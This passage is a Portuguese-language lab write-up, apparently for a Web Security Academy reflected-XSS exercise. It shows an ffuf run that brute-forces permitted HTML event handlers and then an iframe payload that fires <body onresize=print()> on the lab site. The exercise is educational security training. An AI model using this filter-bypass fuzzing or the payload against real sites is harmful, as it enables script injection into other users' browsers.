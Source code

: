 ```bash

╭─[LAPTOP-HRI3FQ3J] as root in ~/Desktop                                                                       02:24:22
╰──➤ ffuf -w events.txt -u https://0a62005703fe7516c262dbca0057004b.web-security-academy.net/\?search\=\<body%20FUZZ\=1\>

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v1.5.0 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : https://0a62005703fe7516c262dbca0057004b.web-security-academy.net/?search=<body%20FUZZ=1>
 :: Wordlist         : FUZZ: events.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
________________________________________________

onresize                [Status: 200, Size: 3165, Words: 1187, Lines: 66, Duration: 277ms]
onratechange            [Status: 200, Size: 3169, Words: 1187, Lines: 66, Duration: 337ms]
onbeforeinput           [Status: 200, Size: 3170, Words: 1187, Lines: 66, Duration: 266ms]
:: Progress: [108/108] :: Job [1/1] :: 21 req/sec :: Duration: [0:00:09] :: Errors: 0 ::

```

perceba que foi preciso utilizar o `%20` entre o `body` e o `evento`, pois como o brute force é feito em uma URL, o `%20` é considerado como um espaço na URL.

Com o evento `onresize` encontrado, podemos executar o payload de XSS no exploit server disponibilizado no laboratório.

```html

    <iframe src="https://0a62005703fe7516c262dbca0057004b.web-security-academy.net/?search=%22%3E%3Cbody%20onresize=print()%3E" onload=this.style.width='100px'>

```

Onde o `onresize` é o evento que foi encontrado no brute force, e o `print()` é o payload de XSS que será executado quando o evento for disparado, o `src` do iframe é a URL que será carregada quando o iframe for carregado, e o `onload` é um evento que é disparado quando o iframe é carregado, e o `this.style.width='100px'` é uma propriedade CSS que irá alterar a largura do iframe para 100px, para que o iframe seja renderizado na página.
